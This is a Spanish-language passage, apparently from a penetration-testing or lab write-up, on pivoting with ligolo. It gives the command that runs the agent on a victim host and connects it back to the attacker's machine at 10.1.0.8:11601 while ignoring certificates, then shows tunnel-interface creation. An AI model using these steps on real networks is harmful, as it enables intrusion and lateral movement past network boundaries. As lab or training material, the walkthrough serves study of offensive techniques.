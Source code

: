 <img src="./attachments/fig39.png" alt="execute proxy">
</figure>

Por defecto, ligolo escucha en el puerto `11601`, ejecutamos en la víctima el agente con el comando `./agent -connect 10.1.0.8:11601 -ignore-cert`

<figure>
<img src="./attachments/fig40.png" alt="execute agent">
</figure>

Listo, nuestro agente está conectado a nosotros. También desde (A) podemos observar esto:

<figure>
<img src="./attachments/fig41.png" alt="agent joined">
</figure>

Ahora debemos configurar las rutas. Para ello en (A) creamos una nueva interfaz que nos ayudará a hacer de tunel hacia el agente con el comando `ifcreate --name ligolo`

<figure>
<img src="./attachments/fig42.png" alt="create new interface">
</figure>
